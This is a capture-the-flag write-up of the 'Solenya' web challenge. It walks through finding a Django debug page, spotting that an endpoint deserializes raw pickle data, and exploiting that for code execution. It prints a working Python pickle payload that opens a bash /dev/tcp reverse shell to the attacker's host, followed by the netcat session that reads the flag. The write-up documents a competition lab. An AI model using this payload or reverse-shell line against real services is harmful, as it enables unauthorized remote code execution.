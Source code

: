 # Solenya, web300

Challenge text: "Whatever this thing is, it's shaming us. 172.31.2.105".

So we start off with only an IP address, that does not respond on port 80. We quickly try a few other common ports, and it turns out that a webserver is being hosted on port 8000. We are greeted by an image of 'Pickle Rick':

![Pickle Rick](https://github.com/noproplem/defcon_openctf_2018/blob/master/solenya/images/1.png)

There isn't much going on besides the image, so we check for a /robots.txt file. Turns out that there is a robots.txt file, and it contains LOTS of references to subdirs on the website. These should all be enumerated and hopefully one of them will be interesting. However, before setting up something to do that, lets jsut check a few manually.

By visting a random subdir from the robots.txt file we get a Django debug message - since the Django installation apparently is in debug mode. The message mentions the subdirs: /wubbalubbadubdub and /fingerprint. This seems interesting. Visiting http://172.31.2.105:8000/fingerprint we see an image of Birdman, and on http://172.31.2.105:8000/wubbalubbadubdub there is a login prompt. We try a few common sets of credentials: admin/password and so on, but no luck.

The name of the challenge, "Solenya", and the "pickle Rick" references could very likely be a hint about Pickle (https://docs.python.org/3/library/pickle.html), which is used to serialize python objects. Since the webpage runs Django this seems likely. Exploiting pickle to deserialize an object that gives code executin is a common trick (https://blog.nelhage.com/2011/03/exploiting-pickle/), so we basically just need to find out how to send some data that will be deserialzied by the website, then create and send our payload.

After playing around with the login prompt we see that after a login attempt a huge POST request is made to /fingerprint:

```
POST /fingerprint/ HTTP/1.1
Host: 172.31.2.105:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.31.2.105:8000/wubbalubbadubdub/login/?next=/wubbalubbadubdub/
content-type: application/json; charset=utf-8
token: SSdtIFBpY2tsZSBSaWNrIQ==
origin: http://172.31.2.105:8000
Content-Length: 34686
Cookie: csrftoken=eVxZrS4DcdnACesJcLtxLq8hfFVXnnY1UgTUyx6yb6Ac1yeWRXrerGtX0zjWC1dz
Connection: close

S'{"hash":"58c9ee941b8434d28dd5692628dc2ff9","vectors":[{"key":"user_agent","value":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0"},{"key":"language","value":"en-US"},{"key":"color_depth","value":24},{"key":"device_memory","value":-1},{"key":"hardware_concurrency","value":4},{"key":"resolution","value":[1280,720]},{"key":"available_resolution","value":[1215,696]},{"key":"timezone_offset","value":420},{"key":"session_storage","value":1},{"key":"local_storage","value":1},{"key":"indexed_db","value":1},{"key":"cpu_class","value":"unknown"},{"key":"navigator_platform","value": . . . (continues)
```

The body looks like a serialized object. Lets see how it is made. On http://172.31.2.105:8000/wubbalubbadubdub/ there is a reference to http://172.31.2.105:8000/static/base.min.js which has:
```
(snippet)
new Fingerprint2().get(function(hash, vectors) {
    const data = {
        hash: hash,
        vectors: vectors
    };
    const json_data = JSON.stringify(data);
    const pickle_data = pickle.dumps(json_data);
    const url = `${window.location.origin }/fingerprint/`;
    fetch(url, {
        method: "POST",
        mode: "cors",
        cache: "no-cache",
        credentials: "same-origin",
        headers: {
            "Content-Type": "application/json; charset=utf-8",
            "Token": "SSdtIFBpY2tsZSBSaWNrIQ=="
        },
        redirect: "follow",
        body: pickle_data
    })
});
```

So we can see that indeed the body is just a nonencoded pickle object. Time to create pickle object that gives us a shell:

```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/bash','-c', 'bash >/dev/tcp/172.31.127.232/8181 0>&1 2>&1'),))

print cPickle.dumps(RunBinSh())
cPickle.loads(cPickle.dumps(RunBinSh()))
```
We send this using burp proxy while having a nc listener on our own host:

```
nc -lp 8181

ls -lah
total 118M
drwxr-xr-x 5 jaguar jaguar 4.0K Aug  9 06:20 .
drwxr-xr-x 3 root   root   4.0K Aug  9 06:14 ..
drwxr-xr-x 3 jaguar jaguar 4.0K Aug  9 06:20 app
-r--r--r-- 1 jaguar jaguar   79 Aug  9 06:20 .flag
-rwxr-xr-x 1 jaguar jaguar  535 Aug  9 06:12 manage.py
-rw-r--r-- 1 jaguar jaguar  164 Aug  9 06:12 nginx-solenya
-rw-r--r-- 1 jaguar jaguar   24 Aug  9 06:12 requirements.txt
-rwxr-xr-x 1 jaguar jaguar 3.4K Aug  9 06:12 setup.sh
-rw-r--r-- 1 jaguar jaguar  199 Aug  9 06:12 solenya-uwsgi.service
drwxr-xr-x 2 jaguar jaguar 4.0K Aug  9 06:12 static
drwxr-xr-x 2 jaguar jaguar 4.0K Aug  9 06:12 templates
-rw-r--r-- 1 jaguar jaguar  238 Aug  9 06:12 uwsgi.ini
-rw-r----- 1 jaguar jaguar 118M Aug 11 20:30 uwsgi.log
cat .flag
--He crawls from bowls of cold soup to steal the dreams of wasteful children--
```

So there we have it "--He crawls from bowls of cold soup to steal the dreams of wasteful children--".
